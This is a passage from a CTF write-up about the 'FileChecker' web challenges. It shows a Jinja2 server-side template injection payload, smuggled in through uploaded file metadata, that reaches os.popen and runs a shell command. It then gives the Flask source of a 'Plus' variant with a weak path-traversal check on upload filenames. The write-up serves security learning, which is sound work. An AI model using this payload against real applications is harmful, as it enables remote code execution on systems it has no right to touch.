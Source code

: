 Once the file is being uploaded, **/bin/file** gets executed with with **-b flag** to remove the filename from the output. Since ***file_check_res*** is being rendered with **render_template_string**, it was a matter of having /bin/file to output extra information that we control, **metadata** in this case, that way we can use a simple SSTI payload to get code execution.

injection the following code as a metadata resulted in RCE

```python
{{[].__class__.__mro__[1].__subclasses__()[127].__init__.__globals__['popen']('ls').read()}} 
```


# FileChecker Plus

FileChecker Plus was a revenge of the mini challenge, having the same code with a very minor modifications, where **render_template** won't render what we supply. 

```python
from flask import Flask, request, render_template, render_template_string
from waitress import serve
import os
import subprocess

app_dir = os.path.split(os.path.realpath(__file__))[0]
app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = f'{app_dir}/upload/'

@app.route('/', methods=['GET','POST'])
def index():
    try:
        if request.method == 'GET':
            return render_template('index.html',result="ヽ(=^･ω･^=)丿 ヽ(=^･ω･^=)丿 ヽ(=^･ω･^=)丿")

        elif request.method == 'POST':
            f = request.files['file-upload']
            filepath = os.path.join(app.config['UPLOAD_FOLDER'], f.filename)

            if os.path.exists(filepath) and ".." in filepath:
                return render_template('index.html', result="Don't (^=◕ᴥ◕=^) (^=◕ᴥ◕=^) (^=◕ᴥ◕=^)")
            else:
                f.save(filepath)
                file_check_res = subprocess.check_output(
                    ["/bin/file", "-b", filepath], 
                    shell=False, 
                    encoding='utf-8',
                    timeout=1
                )
                os.remove(filepath)
                if "empty" in file_check_res or "cannot open" in file_check_res:
                    file_check_res="wafxixi ฅ•ω•ฅ ฅ•ω•ฅ ฅ•ω•ฅ"
                return render_template('index.html', result=file_check_res)

    except:
        return render_template('index.html', result='Error ฅ(๑*д*๑)ฅ ฅ(๑*д*๑)ฅ ฅ(๑*д*๑)ฅ')

if __name__ == '__main__':
    serve(app, host="0.0.0.0", port=3000, threads=1000, cleanup_interval=30) 
```
